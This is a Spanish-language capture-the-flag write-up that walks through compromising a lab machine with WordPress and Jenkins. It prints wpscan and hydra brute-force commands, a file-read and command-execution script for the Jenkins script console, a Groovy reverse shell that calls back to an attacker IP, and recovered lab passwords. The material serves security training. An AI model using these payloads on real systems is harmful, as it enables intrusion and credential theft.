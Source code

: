 Hacemos el reconocimiento con nmap:
![[Pasted image 20230819113625.png]]
Y vemos lo que corre sobre el puerto 80:
![[Pasted image 20230819113722.png]]
Probamos en hacer fuzzing y vemos una serie de directorios, donde además nos encontramos con un wordpress:
![[Pasted image 20230819114104.png]]
Visualizamos la base de datos phpmyadmin:
![[Pasted image 20230819114138.png]]
Y si vamos al directorio blog vemos que no carga bien:
![[Pasted image 20230819113933.png]]
Por tanto vamos a añadir el internal.thm al /etc/hosts:
![[Pasted image 20230819114021.png]]
Y ya carga bien:
![[Pasted image 20230819114053.png]]
Ahora vamos a probar en hacer otro escaneo dentro de este wordpress con gobuster, donde encontramos varios directorios; y entre ellos un panel de login:
![[Pasted image 20230819114258.png]]
![[Pasted image 20230819114430.png]]
Con wpscan probamos en hacer una enumeración, donde vemos que nos encuentra el usuario admin:
```bash
wpscan --url http://internal.thm/blog --enumerate u,vp
```
![[Pasted image 20230819114644.png]]
Por tanto ahora vamos a hacer un ataque de fuerza bruta con wpscan de la siguiente forma:
```bash
wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
Y vemos que la contraseña es la siguiente:
```bash
admin:my2boys
```
![[Pasted image 20230819115042.png]]
Por tanto iniciamos sesión con estas credenciales:
![[Pasted image 20230819114917.png]]
Una vez dentro, en appearance y luego en theme editor, vemos que podemos colar una webshell:
![[Pasted image 20230819114955.png]]
Podemos insertarlo en el 404 template:
![[Pasted image 20230819115022.png]]
Por tanto preparamos el php malicioso de pentest monkey poniendo la IP y puerto de atacante:
![[Pasted image 20230819115125.png]]
Y lo pegamos dentro del wordpress en el footer.php:
![[Pasted image 20230819115524.png]]
De tal forma que si accedemos a internal.thm/blog/ nos habremos enviado la reverse shell:
![[Pasted image 20230819115639.png]]
![[Pasted image 20230819115647.png]]
Intentamos acceder al usuario aubreanna pero no podemos:
![[Pasted image 20230819115736.png]]
Si miramos dentro del directorio /opt, vemos que tenemos las credenciales del usuario aubreanna:
```
aubreanna:bubb13guM!@#123
```
![[Pasted image 20230819115820.png]]
Probamos en acceder vía ssh y ya estamos dentro:
![[Pasted image 20230819115918.png]]
Una vez dentro, nos encontramos con un archivo que dice que está corriendo un jenkins en una IP por el puerto 8080:
![[Pasted image 20230819120025.png]]
Vemos que efectivamente existe esta IP:
![[Pasted image 20230819125930.png]]
Si queremos llegar a esta IP tenemos que usar chisel, por lo que lo compartimos con la máquina víctima:
![[Pasted image 20230819120141.png]]
![[Pasted image 20230819120150.png]]
En nuestra máquina atacante, nos ponemos en escucha con chisel por el puerto 8001, que es donde está corriendo el servicio jenkins en la máquina víctima:
```bash
./chisel server --reverse -p 8001
```
![[Pasted image 20230819120303.png]]
Y ahora en la máquina víctima quiero decir que el puerto 8080 de la máquina víctima se convierta en el 443 de mi máquina atacante; y todo esto enviándose por el puerto 8001 que es donde estará chisel escuchando:
```bash
./chisel client 10.8.100.91:8001 R:443:127.0.0.1:8080
```
![[Pasted image 20230819121805.png]]
![[Pasted image 20230819121812.png]]
Y ahora si accedemos al puerto 443 de mi máquina local, veremos que hay un jenkins corriendo:
![[Pasted image 20230819121850.png]]
Si queremos hacer un ataque de fuerza bruta, tendremos que interceptar la petición http con burp suite y atacar con hydra:
![[Pasted image 20230819122055.png]]
![[Pasted image 20230819122106.png]]
Por tanto estos parámetros los ponemos en el hydra, aunque primero debemos tomar nota del mensaje de error que sale en el jenkins para que hydra sepa cuando un intento es fallido:
![[Pasted image 20230819122803.png]]
Y ahora ya podemos lanzar el ataque con estos parámetros:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 443 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
```
Y nos encuentra la contraseña:
![[Pasted image 20230819123039.png]]
```
admin:spongebob
```
Y estamos dentro:
![[Pasted image 20230819123124.png]]
En jenkins hay un apartado que es para ejecutar plugins que se llama script console, el cual está dentro de manage jenkins:
![[Pasted image 20230819123216.png]]
Y aquí una vez dentro, tenemos que leer el contenido del archivo que queramos pero en lenguaje java, el cual nos puede ayudar chatgpt:
![[Pasted image 20230819123423.png]]
Este es el código generado:
```bash
def filePath = '/etc/passwd'

try {
    def fileContents = new File(filePath).text
    println("Contenido del archivo:\n$fileContents")
} catch (Exception e) {
    println("Error al leer el archivo: ${e.message}")
}
```
Y vemos que nos lee el contenido:
![[Pasted image 20230819123452.png]]
Probamos ahora con la ejecución del comando ls, con la ayuda de chatgpt:
![[Pasted image 20230819124133.png]]
```bash
def command = 'ls'

try {
    def process = command.execute()
    process.waitFor()
    
    if (process.exitValue() == 0) {
        def output = process.text
        println("Salida del comando $command:\n$output")
    } else {
        def errorOutput = process.err.text
        println("Error al ejecutar el comando $command:\n$errorOutput")
    }
} catch (Exception e) {
    println("Error al ejecutar el comando $command: ${e.message}")
}
```
![[Pasted image 20230819124153.png]]
De todos modos si miramos por internet, en esta web tenemos unas instrucciones de un código para enviarnos la reverse shell:
```bash
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
```
![[Pasted image 20230819125513.png]]
```bash
String host="10.8.100.91";
int port=444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Lo ejecutamos y recibimos la reverse shell:
![[Pasted image 20230819125549.png]]
![[Pasted image 20230819125559.png]]
Y vemos que efectivamente estamos dentro del jenkins:
![[Pasted image 20230819125625.png]]
Y dentro de /opt nos encontramos con una nota:
![[Pasted image 20230819125703.png]]
Donde tenemos una contraseña de root:
```
root:tr0ub13guM!@#123
```
Y podemos entrar vía ssh como root a la máquina víctima:
![[Pasted image 20230819125824.png]]
